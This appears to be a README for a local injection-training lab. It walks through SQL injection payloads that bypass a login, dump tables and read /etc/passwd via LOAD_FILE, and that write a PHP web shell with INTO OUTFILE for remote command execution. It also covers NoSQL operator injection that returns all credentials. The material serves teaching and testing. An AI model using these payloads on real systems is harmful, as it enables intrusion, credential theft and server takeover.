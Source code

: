 # Start

Start the network with `./start_linux_network.sh`. You have to wait a bit until the databases are populated.

# SQL

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100)

## Attack

### Verification

Error when calling this url:

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27)

### List all products

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100' OR '1'='1](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100' OR '1'='1)

# Login Example

## Standard

[http://127.0.0.1:8781/login/login.php](http://127.0.0.1:8781/login/login.php)

Enter 'admin', 'admin'

## Attack

### Verification

Enter some credentials. Check url.

Error when calling this url:

[http://127.0.0.1:8781/login/login.php?user=user'&password=pass'](http://127.0.0.1:8781/login/login.php?user=user'&password=pass')

### Circumvent Login

[http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1](http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1)

# File Attacks

## Standard

[http://127.0.0.1:8781/load_file/list_users.php?UserID=2](http://127.0.0.1:8781/load_file/list_users.php?UserID=2)

## Verification

Check if you can do a [`UNION SELECT`](https://www.techonthenet.com/sql/union_all.php) (add numbers at the end of the line until the query works 1, then 1,2, then 1,2,3 and s forth...):

[http://127.0.0.1:8781/load_file/list_users.php?UserID=1%20UNION%20ALL%20SELECT%201,2,3](http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT 1,2,3)

## Read sensible files

If file permissions are set to db user (e.g. logged in as root or `GRANT FILE ON *.* TO 'user'@'%';` is set):

Use `LOAD_FILE`:

http://127.0.0.1:8781/load_file/list_users.php?UserID=1%20UNION%20ALL%20SELECT%20LOAD_FILE(%27/etc/passwd%27),2,3

`http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT LOAD_FILE('/etc/passwd/'),2,3`

## Write code to server

Using LAMP Server:

### Standard

[http://127.0.0.1:8782/into_outfile/list_users.php?UserID=1](http://127.0.0.1:8782/into_outfile/list_users.php?UserID=1)

### Attack

Use `INTO OUTFILE`:

http://127.0.0.1:8782/into_outfile/list_users.php?UserID=1%20UNION%20SELECT%201,2,%27%3C?php%20system($_REQUEST[%22cmd%22]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/cmd.php%27

`/var/www/html/cmd.php` should not exist before.

After that you can check remote code execution with:

http://127.0.0.1:8782/cmd.php?cmd=ls

# Generic Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php](http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php)

## Attack

[http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users](http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users)

# Form Skip Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php)

Form to choose a customer showing soft skills

## Verification

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param='](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param=')

# NoSQL

To get an overview of the examples goto http://127.0.0.1:8782/

## Get all products

- [http://127.0.0.1:8782/products.php?product[$gt]=%22%22](http://127.0.0.1:8782/products.php?product[$gt]=%22%22)
- [http://127.0.0.1:8782/products.php?product[$ne]=1(http://127.0.0.1:8782/products.php?product[$ne]=1)

## Get all credentials / Potential login bypass

- [http://127.0.0.1:8782/users.php?user[$ne]=1&pass[$ne]=1](http://127.0.0.1:8782/users.php?user[$ne]=1&pass[$ne]=1)
